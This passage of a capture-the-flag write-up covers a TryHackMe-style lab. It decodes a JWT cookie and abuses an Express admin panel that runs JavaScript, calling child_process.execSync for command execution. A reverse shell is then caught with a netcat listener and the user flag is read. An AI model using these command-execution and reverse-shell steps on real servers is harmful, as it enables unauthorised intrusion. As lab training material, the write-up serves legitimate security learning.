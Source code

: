 I noticed that the website stored a cookie in my browser. The cookie's name is `jwt` and its format made it clear to me that this is a JSON web token. This one can be easily decoded to yield the first flag out of many.

{{< figure src="/images/thm/dave/jwt-decode.png" caption="Decoding JWT on [jwt.io](https://jwt.io/), pixelated so you still have something to do" alt="Decoding a JSON web token on jwt.io" >}}

After successfully logging in, I was forwarded to a text area with a button next to it labelled "exec" and a greyed out area beneath. I knew I could probably execute code in there, and since the website was built using Express, I assumed I could enter JavaScript to execute it in a Node.JS runtime behind the scenes. A bit of fiddling led me to use a self-executing function.

```js
// this makes foobar appear in the output panel
(() => { return "foobar"; })();
```

Anything that I return within the function will be shown in the output panel. And since Node.JS is being used to execute the code that I enter, I can import its standard modules. The `child_process` module allows me to spawn processes on the host and to return the results back to me. My first experiment was to just call `echo` and it worked just fine.

```js
// the timeout is to kill processes that take too long to finish
(() => { return require("child_process").execSync("echo test;", { timeout: 5000 }); })();
```

{{< figure src="/images/thm/dave/admin-hello.png" caption="One of the few servers to say hello back to me" alt="Using the admin panel to execute echo on the server" >}}

My next step was to execute a Bash reverse shell on the host. I grabbed a payload from Pentestmonkey and set up a listener on my local machine. I dispatched the payload and I found myself in Dave's account. The next flag can be found in his home directory.

```text
kali@kali:~$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [###.###.###.###] from (UNKNOWN) [###.###.###.###] 57846
/bin/sh: 0: can't access tty; job control turned off
$ id; pwd;
uid=1000(dave) gid=1000(dave) groups=1000(dave)
/home/dave/blog
$ cd    
$ ls -al
total 44
drwxr-xr-x  5 dave dave 4096 May 22 13:32 .
drwxr-xr-x  3 root root 4096 May 21 20:27 ..
lrwxrwxrwx  1 dave dave    9 May 21 20:29 .bash_history -> /dev/null
-rw-r--r--  1 dave dave  220 May 21 20:27 .bash_logout
-rw-r--r--  1 dave dave 3771 May 21 20:27 .bashrc
drwxr-xr-x  9 dave dave 4096 Oct 15 16:26 blog
drwxrwxr-x  3 dave dave 4096 May 21 20:38 .local
drwxrwxr-x 94 dave dave 4096 May 21 20:34 .npm
-rw-r--r--  1 dave dave  807 May 21 20:27 .profile
-rw-rw-r--  1 dave dave   66 May 21 20:38 .selected_editor
-rwxr-xr-x  1 root root  137 May 22 13:32 startup.sh
-rw-rw-r--  1 dave dave   38 May 21 20:45 user.txt
$ cat user.txt
THM{################################}
```

